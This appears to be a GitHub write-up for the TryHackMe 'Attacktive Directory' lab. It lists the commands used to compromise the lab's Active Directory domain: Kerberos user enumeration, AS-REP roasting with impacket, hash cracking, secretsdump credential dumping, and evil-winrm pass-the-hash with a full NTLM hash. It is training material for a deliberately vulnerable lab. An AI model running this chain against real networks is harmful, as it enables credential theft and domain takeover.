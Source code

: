 <div align="center">
                  
# [Attacktive Directory](https://tryhackme.com/room/attacktivedirectory)
![image](https://user-images.githubusercontent.com/51442719/177435882-34e6b079-d835-4ae0-9e97-6b39078e0c16.png)

</div>

- [x] Task 1  [`Intro` Deploy The Machine]()
- [x] Task 2  [`Intro` Setup]()
- [x] Task 3  [`Enumeration` Welcome to Attacktive Directory]()
- [x] Task 4  [`Enumeration` Enumerating Users via Kerberos]()
- [x] Task 5  [`Exploitation` Abusing Kerberos]()
- [x] Task 6  [`Enumeration` Back to the Basics]()
- [x] Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()
- [ ] Task 8  [`Flag Submission` Flag Submission Panel]()

---


---

- ## Task 1  [`Intro` Deploy The Machine]()

---

- ## Task 2  [`Intro` Setup]()

---

- ## Task 3  [`Enumeration` Welcome to Attacktive Directory]()

---

- ## Task 4  [`Enumeration` Enumerating Users via Kerberos]()

---

- ## Task 5  [`Exploitation` Abusing Kerberos]()

---

- ## Task 6  [`Enumeration` Back to the Basics]()

---

- ## Task 7  [`Domain Privilege Escalation` Elevating Privileges within the Domain]()

---

- ## Task 8  [`Flag Submission` Flag Submission Panel]()

---

# Commands Used:

## Enumeration
```bash
nmap -p- -A -nP $IP
```

## DNS domain name and add it to `/etc/hosts`
```bash
echo $IP spookysec.local >> /etc/hosts
```

```bash
enum4linux -a spookysec.local
```

```bash
kerbrute userenum -d spookysec.local --dc spookysec.local userlist.txt -t 100
```

```bash
find / -type f -name 'GetNPUsers.py'
```

## Exploiting Kerberos
```bash
impacket-GetNPUsers spookysec.local/svc-admin -no-pass
or
impacket-GetNPUsers -dc-ip spookysec.local spookysec.local/svc-admin -no-pass
```

```bash
smbclient -L \\\\$IP\\ -U 'svc-admin' -P 'm********t2005'
```

```bash
john kerbhash --wordlist=/passwords.txt
or
hashcat -a 0 -m 18200 kerbhash password.txt --force

```

```bash
smbmap -H spookysec.local -d spookysec.local -u svc-admin -p m********t2005
```

```bash
git clone https://github.com/Hackplayers/evil-winrm.git
```

```bash
cd evil-winrm 
gem install evil-winrm
```

```bash
evil-winrm -i $IP -u Administrator -H e48xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

```bash
impacket-secretsdump -dc-ip spookysec.local backup@spookysec.local
```

```bash 
evil-winrm -i 10.10.102.138 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```


---

- https://fr33s0ul.tech/attacktive-directory-thm-write-up/

# [Hash Analyzer](https://www.tunnelsup.com/hash-analyzer/)
